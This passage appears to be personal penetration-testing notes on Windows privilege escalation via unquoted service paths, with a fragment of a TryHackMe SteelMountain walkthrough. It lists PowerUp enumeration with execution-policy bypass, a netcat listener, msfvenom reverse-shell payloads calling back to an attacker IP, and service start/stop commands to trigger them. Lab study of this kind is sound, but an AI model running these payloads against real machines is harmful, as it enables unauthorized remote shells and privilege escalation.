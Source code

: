 
### Can be found with PowerUp
```bash
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

Open a listener: 
```bash
multi/handler > set options
or netcat -lvnp <port>
```

For meterpreter
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> -f exe -o common.exe
```

For netcat:
```bash
msfvenom -p windows/reverse_tcp lhost=<kali ip> -f exe -o common.exe
```

- send to the target machine
- save in the path of the unquoted vulnerability

```bash
sc start unquotedsvc
```

> we should get a shell back

## SteelMountain from TryHackMe

HFS - http file server

```bash
- Find the version and search in meterpreter
- run the exploit
- get shell
```

### Escalation Metasploit
```bash
upload <powershell.ps1> 
we can: echo 'Invoke-AllChecks' >> PowerUp.ps1
After upload: powershell -ep bypass .\PowerUp.ps1
```

```bash
powerup found unquoted service > AdvancedSystemCareService9
```

so we can:
```bash
sc query <service> # to see more details of it

sc stop <service>
```

